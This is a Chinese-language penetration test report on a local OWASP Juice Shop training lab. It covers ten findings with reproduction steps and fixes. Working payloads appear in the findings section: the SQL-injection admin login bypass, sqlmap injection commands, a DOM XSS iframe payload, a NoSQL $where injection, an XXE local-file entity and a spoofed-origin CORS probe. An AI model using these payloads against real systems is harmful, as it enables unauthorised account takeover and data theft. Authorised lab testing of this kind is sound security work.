


# OWASP Juice Shop 本地授权主动渗透测试报告

## 1. 摘要

- 目标：`http://127.0.0.1:3000/`
- 授权：用户声明这是本地 OWASP Juice Shop lab，并授权对该目标执行完整主动测试。
- 范围：仅 `http://127.0.0.1:3000/` 同源目标；未扫描其他主机、端口或外部网络。
- 源码路径：`D:\WorkSpace\综合实践5\targets\juice-shop`
- 输出目录：`D:\WorkSpace\综合实践5\dvwa-results\juice-shop-assessment-20260608-152215`
- 测试强度：`active-comprehensive`
- 起止时间：`2026-06-08T15:22:15+08:00` 至 `2026-06-08T15:44:05+08:00`
- 初始凭据：无。未创建新账号；通过已验证的 SQL 注入登录绕过获得了临时管理员会话 token。

本次从浏览器观察和源码审阅开始，随后执行 ZAP spider/passive/active scan、ffuf 小范围发现、sqlmap 单参数验证、Python/requests 主动 harness 和 Playwright XSS proof。确认的主要风险包括：登录 SQL 注入导致管理员登录绕过、搜索接口 SQL 注入、DOM XSS、订单跟踪 NoSQL 注入、公开目录索引、公开配置/API 文档/metrics、宽松 CORS、缺失 CSP，以及上传接口类型校验缺陷。

## 2. 范围、约束与状态变更

| 项目 | 内容 |
| --- | --- |
| 目标 URL | `http://127.0.0.1:3000/` |
| 授权边界 | 本地 Juice Shop，同源主动测试 |
| 禁止边界 | 无外部网络、无跨端口扫描、无持久化、无反连 |
| 主动测试 | 已执行登录绕过、注入、XSS、上传、目录/API/配置暴露、ZAP active scan |
| 账号状态 | 未创建账号；`login-sqli-bypass` 获取到 `admin@juice-sh.op` token |
| 清理状态 | 上传 `.txt` 为内存处理，未发现落盘；XSS 和登录/NoSQL/Upload 测试触发 Juice Shop challenge solved 状态，未重置数据库 |

状态变更说明：Playwright XSS 页面显示已解决若干 Juice Shop challenge，包括 `Login Admin`、`NoSQL Exfiltration`、`Upload Type` 等。这属于靶场计分状态变化，不涉及外部系统或持久化植入。如需恢复靶场初始状态，应使用 Juice Shop 自带重置流程或重建本地数据。

## 3. 方法与工具

| 工具 | 用途 | 产物 |
| --- | --- | --- |
| Playwright | SPA 页面探索、截图、XSS dialog 捕获 | `browser-map.json`、`xss-proof.json`、`screenshots/*.png` |
| Python/requests | 主动验证 harness、保存请求/响应证据 | `active-verification.json`、`requests/active-*.json` |
| ZAP | spider、passive alerts、active scan | `zap-passive.json`、`zap-active.json` |
| ffuf | 小范围同源路径确认 | `ffuf-results.json` |
| sqlmap | 对已建模的 `q` 参数做 SQLi 复核 | `sqlmap-output-level3/127.0.0.1/log` |
| 源码审阅 | 确认路由、中间件、输入流向和 sink | `server.ts`、`routes/*.ts`、前端组件 |

## 4. 应用地图

### 浏览器页面

| 名称 | URL | 截图 | 观察 |
| --- | --- | --- | --- |
| Home | `http://127.0.0.1:3000/#/` | `screenshots/home.png` | 商品列表、账户、购物车、搜索入口 |
| Login | `http://127.0.0.1:3000/#/login` | `screenshots/login.png` | 登录表单视图，后端 API 为 `/rest/user/login` |
| Search | `http://127.0.0.1:3000/#/search` | `screenshots/search.png` | 搜索结果页，`q` 参数进入 DOM 和 `/rest/products/search` |
| About | `http://127.0.0.1:3000/#/about` | `screenshots/about.png` | 关于页面与外链信息 |
| Contact | `http://127.0.0.1:3000/#/contact` | `screenshots/contact.png` | 反馈/联系功能入口 |
| Score Board | `http://127.0.0.1:3000/#/score-board` | `screenshots/score-board.png` | 靶场挑战状态 |
| Privacy/Security | `http://127.0.0.1:3000/#/privacy-security` | `screenshots/privacy-security.png` | 账号隐私和安全功能入口 |

### 同源路径与 API

| 路径 | 状态 | 说明 |
| --- | ---: | --- |
| `/ftp` | `200` | 目录索引，截图 `screenshots/ftp-listing.png` |
| `/.well-known` | `200` | 目录索引，截图 `screenshots/well-known-listing.png` |
| `/support/logs` | `200` | ffuf 发现日志目录索引 |
| `/api-docs/` | `200` | Swagger UI，截图 `screenshots/api-docs.png` |
| `/metrics` | `200` | Prometheus metrics，截图 `screenshots/metrics.png` |
| `/rest/admin/application-configuration` | `200` | 未认证公开配置 JSON |
| `/rest/admin/application-version` | `200` | 未认证公开版本 `20.0.0` |
| `/rest/products/search?q=apple` | `200` | 商品搜索 API |
| `/api/Products` | `200` | 商品 REST API |
| `/api/Users` | `401` 未认证，`200` 认证后 | 用户 API，登录绕过后可访问 |

## 5. 安全头与配置观察

首页响应包含：

- `Access-Control-Allow-Origin: *`
- `X-Content-Type-Options: nosniff`
- `X-Frame-Options: SAMEORIGIN`
- `Feature-Policy: payment 'self'`
- `X-Recruiting: /#/jobs`

未观察到：

- `Content-Security-Policy`
- `Strict-Transport-Security`
- `Referrer-Policy`
- `Permissions-Policy`

源码 `server.ts` 第 `181-183` 行启用全局 `cors()`，第 `186-187` 行启用 `helmet.noSniff()` 和 `helmet.frameguard()`，但未启用 CSP。ZAP active scan 也报告了多条 `Content Security Policy (CSP) Header Not Set` 和 `Cross-Domain Misconfiguration`。

## 6. ZAP 扫描结果

ZAP passive/active 均可用，active scan 完成：

- ZAP active scan id：`0`
- active scan 耗时：`145.529s`
- 主要告警聚合：
  - `Medium, Cross-Domain Misconfiguration`：`36`
  - `Medium, Content Security Policy (CSP) Header Not Set`：`12`
  - `Low, Timestamp Disclosure - Unix`：`15`
  - `Informational, User Agent Fuzzer`：`24`
  - `Informational, Modern Web Application`：`3`
  - `Informational, Information Disclosure - Suspicious Comments`：`2`

ZAP 告警作为扫描线索；下方“已验证发现”以源码、requests、Playwright 或 sqlmap 复现为准。

## 7. 发现总表

| ID | 发现 | 状态 | 严重性 | 置信度 | 主要证据 |
| --- | --- | --- | --- | --- | --- |
| JS-01 | 登录 SQL 注入导致管理员登录绕过 | Confirmed | Critical | High | `login-invalid-baseline=401`，`login-sqli-bypass=200`，`umail=admin@juice-sh.op` |
| JS-02 | 搜索接口 SQL 注入 | Confirmed | High | High | 源码拼接 SQL；sqlmap 确认 `q` boolean/time-based 注入 |
| JS-03 | DOM XSS in search | Confirmed | High | High | Playwright 捕获 `alert("xss")`，DOM 中出现注入 iframe |
| JS-04 | 订单跟踪 NoSQL 注入/订单枚举 | Confirmed | High | High | `track-order-nosql-probe` 返回多条订单数据 |
| JS-05 | 目录索引与敏感文件暴露 | Confirmed | Medium | High | `/ftp`、`/.well-known`、`/support/logs` 返回目录索引 |
| JS-06 | 未认证公开管理配置、版本、API 文档和 metrics | Confirmed | Medium | High | `/rest/admin/application-configuration=200`、`/api-docs=200`、`/metrics=200` |
| JS-07 | 全局宽松 CORS | Confirmed | Medium | Medium | 任意 `Origin: http://attacker.example` 返回 `Access-Control-Allow-Origin: *` |
| JS-08 | 缺失 CSP | Confirmed | Medium | High | 首页和多个路径无 CSP；ZAP active 高置信告警 |
| JS-09 | 上传接口接受非预期扩展名 | Confirmed | Low | Medium | `/file-upload` 上传 `proof-20260608.txt` 返回 `204` |
| JS-10 | XML 上传解析外部实体，存在 XXE 攻击面 | Likely | Medium | Medium | 源码 `parseXml(... noent: true ...)`；XML 探针返回实体解析错误 |

## 8. 详细发现

### JS-01 登录 SQL 注入导致管理员登录绕过

- 状态：Confirmed
- 严重性：Critical
- 受影响接口：`POST /rest/user/login`
- 源码：`routes/login.ts` 第 `34` 行将 `req.body.email` 和密码 hash 拼进 SQL 字符串。

证据：

- 基线：`requests/active-login-invalid-baseline.json`
  - 输入：`email=not-a-user@example.invalid`
  - 结果：`401 Invalid email or password.`
- 绕过：`requests/active-login-sqli-bypass.json`
  - 输入：`email=' OR 1=1--`，`password=irrelevant_20260608`
  - 结果：`200`，`token_present=True`，`umail=admin@juice-sh.op`，`bid=1`
- 后续验证：`requests/active-whoami-after-login-bypass.json`
  - 返回：`id=1`，`email=admin@juice-sh.op`
- 数据访问验证：`requests/active-api-users-after-login-bypass.json`
  - 未认证 `/api/Users` 为 `401`
  - 绕过后 `/api/Users` 为 `200`，返回用户列表

复现步骤：

1. 发送 `POST http://127.0.0.1:3000/rest/user/login`。
2. JSON body 使用 `{"email":"' OR 1=1--","password":"irrelevant_20260608"}`。
3. 观察响应中出现 `authentication.token` 和 `umail=admin@juice-sh.op`。
4. 携带该 token 访问 `/rest/user/whoami` 或 `/api/Users`。

修复建议：使用参数化查询或 ORM 参数绑定，不将用户输入拼接进 SQL；登录接口增加统一错误处理、审计和速率限制；对 token 签发前的用户对象来源做严格校验。

### JS-02 搜索接口 SQL 注入

- 状态：Confirmed
- 严重性：High
- 受影响接口：`GET /rest/products/search?q=...`
- 源码：`routes/search.ts` 第 `19-21` 行将 `criteria` 直接拼接进 `LIKE '%${criteria}%'`。

证据：

- 基线：`requests/active-search-normal-baseline.json`，`q=apple` 返回商品数据。
- sqlmap：`sqlmap-output-level3/127.0.0.1/log`
  - `Parameter: q (GET)`
  - `Type: boolean-based blind`
  - Payload：`q=apple%' AND 3726=3726 AND 'cfZb%'='cfZb`
  - `Type: time-based blind`
  - DBMS：`SQLite`
  - 总请求数：`150`

复现步骤：

1. 访问 `http://127.0.0.1:3000/rest/products/search?q=apple` 建立基线。
2. 运行：`sqlmap -u "http://127.0.0.1:3000/rest/products/search?q=apple" --batch --risk=2 --level=3 --flush-session --timeout=5 --retries=0 --threads=1 --dbms=SQLite`。
3. 观察 sqlmap 输出 `GET parameter 'q' is vulnerable`。

修复建议：对搜索参数使用参数化查询；限制 wildcard 查询语义；对异常统一返回，不暴露数据库错误；为搜索 API 加入输入长度和字符白名单不是替代参数化查询。

### JS-03 DOM XSS in search

- 状态：Confirmed
- 严重性：High
- 受影响路由：`/#/search?q=...`
- 源码：`frontend/src/app/search-result/search-result.component.ts` 使用 `bypassSecurityTrustHtml(queryParam)`；模板 `search-result.component.html` 将 `searchValue` 绑定到 `[innerHTML]`。

证据：

- 文件：`xss-proof.json`
- Payload：`<iframe src="javascript:alert(`xss`)">`
- URL：`http://127.0.0.1:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Aalert%28%60xss%60%29%22%3E`
- Playwright dialog：`{"type":"alert","message":"xss"}`
- DOM：`iframeCount=1`
- 截图：`screenshots/xss-search-proof.png`

修复建议：不要对 URL 参数调用 `bypassSecurityTrustHtml`；使用文本绑定或严格 HTML sanitizer；部署 CSP 作为纵深防御。

### JS-04 订单跟踪 NoSQL 注入/订单枚举

- 状态：Confirmed
- 严重性：High
- 受影响接口：`GET /rest/track-order/:id`
- 源码：`routes/trackOrder.ts` 将 `id` 拼入 Mongo `$where` 表达式：``this.orderId === '${id}'``。

证据：

- 文件：`requests/active-track-order-nosql-probe.json`
- Payload：`x' || true || '`
- 状态：`200`
- 响应片段包含多条订单：`orderId`、`email`、`products`、`totalPrice`

复现步骤：

1. 发送 `GET /rest/track-order/x%27%20%7C%7C%20true%20%7C%7C%20%27`。
2. 对比正常不存在订单 ID 的行为。
3. 观察响应返回多条订单记录，而不是单个订单或空结果。

修复建议：禁用 `$where` 字符串执行；使用结构化查询条件 `{ orderId: id }`；对订单访问绑定认证用户身份。

### JS-05 目录索引与敏感文件暴露

- 状态：Confirmed
- 严重性：Medium
- 受影响路径：`/ftp`、`/.well-known`、`/support/logs`
- 源码：`server.ts` 第 `269`、`273`、`277`、`281` 行启用 `serveIndex`。

证据：

- `requests/active-directory-listing-ftp.json`：`/ftp` 返回 `listing directory /ftp`
- `requests/active-directory-listing-well-known.json`：`/.well-known` 返回目录索引
- `ffuf-results.json`：`support/logs` 返回 `200`
- 截图：`screenshots/ftp-listing.png`、`screenshots/well-known-listing.png`

修复建议：禁用目录索引；将备份、日志、密钥和内部文档移出 Web 根目录；对必要下载使用白名单控制和鉴权。

### JS-06 未认证公开管理配置、版本、API 文档和 metrics

- 状态：Confirmed
- 严重性：Medium
- 受影响路径：`/rest/admin/application-configuration`、`/rest/admin/application-version`、`/api-docs/`、`/metrics`

证据：

- `requests/active-public-admin-config.json`：`200`，返回 `server.port`、`baseUrl`、应用域、功能开关等配置。
- `requests/active-public-admin-version.json`：`{"version":"20.0.0"}`
- `requests/active-api-docs.json`：Swagger UI `200`
- `ffuf-results.json`：`metrics` 为 `200`
- 截图：`screenshots/api-docs.png`、`screenshots/metrics.png`

修复建议：对管理配置和 metrics 加鉴权；公网环境禁用 Swagger UI 或限制到内部网络；仅暴露最小版本信息。

### JS-07 全局宽松 CORS

- 状态：Confirmed
- 严重性：Medium
- 源码：`server.ts` 第 `181-183` 行全局启用 `cors()`。

证据：

- 文件：`requests/active-cors-origin-arbitrary.json`
- 请求头：`Origin: http://attacker.example`
- 响应头：`Access-Control-Allow-Origin: *`
- ZAP active：`Cross-Domain Misconfiguration`

修复建议：配置允许源白名单；对认证 API 避免 `*`；明确是否允许 credentials；按环境区分开发和生产 CORS 策略。

### JS-08 缺失 CSP

- 状态：Confirmed
- 严重性：Medium
- 证据：
  - `requests/active-security-headers-home.json` 未包含 `Content-Security-Policy`
  - ZAP active 高置信报告多个路径 `Content Security Policy (CSP) Header Not Set`
  - DOM XSS 已被确认，缺失 CSP 放大影响

修复建议：部署严格 CSP，例如限制 `script-src`、禁止 inline JavaScript、限制 frame/object/base-uri；先使用 Report-Only 调整，再强制启用。

### JS-09 上传接口接受非预期扩展名

- 状态：Confirmed
- 严重性：Low
- 受影响接口：`POST /file-upload`
- 源码：`routes/fileUpload.ts` 第 `69-72` 行识别非 `pdf/xml/zip/yml/yaml` 类型但不直接拒绝；后续返回 `204`。

证据：

- 文件：`requests/active-file-upload-unexpected-extension.json`
- 上传文件：`proof-20260608.txt`
- Content-Type：`text/plain`
- 响应：`204`

修复建议：明确拒绝非白名单扩展名；服务端检查 MIME 和文件签名；上传文件落盘前完成校验。

### JS-10 XML 上传解析外部实体，存在 XXE 攻击面

- 状态：Likely
- 严重性：Medium
- 受影响接口：`POST /file-upload`
- 源码：`routes/fileUpload.ts` 第 `81-84` 行使用 `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`，`noent: true` 会展开实体。

证据：

- 文件：`requests/active-file-upload-xxe-local-lab-file.json`
- XML entity：`file:///D:/WorkSpace/综合实践5/targets/juice-shop/ftp/legal.md`
- 响应：`410`
- 响应片段：`Entity 'xxe' failed to parse`

本次探针未成功披露文件内容，但源码显示实体展开配置存在，且上传路径进入 XML parser。该项标记为 Likely，不按 Confirmed 处理。

修复建议：禁用外部实体和 DTD；使用安全 XML parser 配置；不在上传路径中回显解析错误；对 XML 上传做隔离处理。

## 9. 截图清单

| 截图 | 路径 |
| --- | --- |
| 首页 | `screenshots/home.png` |
| 登录页 | `screenshots/login.png` |
| 搜索页 | `screenshots/search.png` |
| XSS proof | `screenshots/xss-search-proof.png` |
| Score Board | `screenshots/score-board.png` |
| FTP 目录索引 | `screenshots/ftp-listing.png` |
| `.well-known` 目录索引 | `screenshots/well-known-listing.png` |
| API Docs | `screenshots/api-docs.png` |
| Metrics | `screenshots/metrics.png` |

## 10. 操作时间线

| 时间 | 工具 | 操作 | 产物 |
| --- | --- | --- | --- |
| `15:22:15` | PowerShell/curl | 检查目标和 ZAP 可用性 | 目标 `200`，ZAP API `200` |
| `15:23:35-15:24:18` | Playwright | SPA 路由探索与截图 | `browser-map.json`、`screenshots/*.png` |
| `15:24:xx` | 源码审阅 | 检查 `server.ts`、`routes/login.ts`、`routes/search.ts` 等 | 源码证据 |
| `15:25:xx` | Python/requests | 被动 GET 验证 | `passive-checks.json` |
| `15:25:xx` | ZAP | Spider + passive alerts | `zap-passive.json` |
| `15:35:xx` | Python/requests | 主动验证 harness | `active-verification.json` |
| `15:35:xx` | Playwright | XSS proof | `xss-proof.json`、`screenshots/xss-search-proof.png` |
| `15:35-15:38` | ZAP | Active scan | `zap-active.json` |
| `15:41:xx` | ffuf | 小范围同源路径发现 | `ffuf-results.json` |
| `15:41:50-15:42:05` | sqlmap | `q` 参数 SQLi 验证 | `sqlmap-output-level3/127.0.0.1/log` |
| `15:43:xx` | Playwright | 目录/API/metrics 补充截图 | `extra-screenshots.json` |

## 11. 产物

| 文件 | 说明 |
| --- | --- |
| `report.md` | 本报告 |
| `browser-map.json` | 浏览器探索、SPA 页面、网络请求、cookie/storage |
| `passive-checks.json` | 低风险 GET 检查结果 |
| `active-verification.json` | 主动验证总结果 |
| `xss-proof.json` | XSS 浏览器证明 |
| `zap-passive.json` | ZAP spider/passive alerts |
| `zap-active.json` | ZAP active scan alerts |
| `ffuf-results.json` | 小范围 ffuf 同源发现 |
| `sqlmap-output-level3/127.0.0.1/log` | sqlmap SQLi 确认证据 |
| `requests/active-*.json` | 每个主动验证请求/响应摘要 |
| `generated-harnesses/*.py` | 本次生成的任务专用 harness |

## 12. 限制与后续建议

限制：

- 未执行外部回连、反连、持久化或跨端口扫描。
- 未尝试 destructive payload，例如 ZIP Slip 写覆盖、DoS 型 YAML/XML bomb、长时间 RCE 占用。
- 通过 SQLi 获得管理员 token 后只做验证性访问，没有进行业务数据篡改或订单/用户修改。
- XXE 项未获得文件内容回显，因此按 Likely 而不是 Confirmed 记录。
- ZAP active scan 为自动化扫描结果，已验证发现优先采用手工/脚本复现证据。

建议下一步人工验证：

1. 在隔离快照中进一步验证 `/file-upload` 的 ZIP Slip、XML/YAML bomb 和 B2B safeEval RCE 类挑战，并准备回滚。
2. 对认证后所有 `/api/*` 和 `/rest/*` 资源做 IDOR 矩阵测试，区分普通用户、管理员和 accounting 角色。
3. 为 DOM XSS、RESTful XSS、存储型 XSS 分别补浏览器上下文和 CSP bypass 验证。
4. 根据 `server.ts` 中所有 `vuln-code-snippet` 路径扩展专项报告，但每次仍应保留请求模型、证据和清理记录。
